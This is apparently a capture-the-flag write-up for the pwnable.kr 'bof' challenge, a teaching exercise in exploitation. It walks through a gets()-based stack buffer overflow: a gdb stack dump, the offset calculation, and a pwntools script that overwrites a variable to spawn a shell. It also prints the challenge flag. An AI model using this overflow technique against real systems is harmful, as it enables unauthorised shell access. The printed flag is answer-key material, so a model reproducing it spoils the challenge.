 # bof

## Description

bof - 5pt

> Nana told me that buffer overflow is one of the most common software vulnerability. Is that true? <br><br>
> Download : http://pwnable.kr/bin/bof
> Download : http://pwnable.kr/bin/bof.c <br><br>
> Running at : nc pwnable.kr 9000

## Solution

### Background

#### Buffer Overflow

A buffer overflow occurs when a program attempts to write more data to a buffer than it can hold. This can cause the program to crash, or it can be used to overwrite data in the program's memory.


### Exploit

This time, we are given two files: `bof` - the binary file, and `bof.c` - the source code. Let's take a look at the source code:

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

The program calls ```gets``` to read input from the user. ```gets``` is a dangerous function because it does not check the length of the input, so it can cause a buffer overflow. The program also checks if the input is equal to `0xcafebabe`, and if it is, it executes the command `/bin/sh`. This means that we need to overwrite the value of `key` with `0xcafebabe` in order to get a shell.

Using ```gdb``` to debug the program, and giving `AAAA` as input, we can see the stack:

```
(gdb) x/100x $esp

0xffffd0f0:	0xffffd10c	0x00000020	0x00000000	0xffffd2e4
0xffffd100:	0x00000000	0x00000000	0x01000000	0x41414141
0xffffd110:	0xf7fc4500	0x00000000	0xf7d904be	0xf7f9e054
0xffffd120:	0xf7fbe4a0	0xf7fd6f10	0xf7d904be	0x75f7b900
0xffffd130:	0xffffd170	0xf7fbe66c	0xffffd158	0x5655569f
0xffffd140:	0xdeadbeef	0x00000000	0xf7f9e000	0xf7e9694b
```

The adress of `key` is `0xffffd140`, and the adress of `overflowme` is `0xffffd10c`. We can see that the distance between them is `52` bytes. This means that we need to write `52` bytes of junk data, followed by `0xcafebabe` in order to overwrite the value of `key`.

```python
from pwn import *

con = remote('pwnable.kr', 9000)

payload = b'\x61' * 52 + p32(0xcafebabe)

con.sendline(payload)

con.interactive()
```

Running the script, we get a shell:

```
$ python3 exploit.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ cat flag
daddy, I just pwned a buFFer :)
```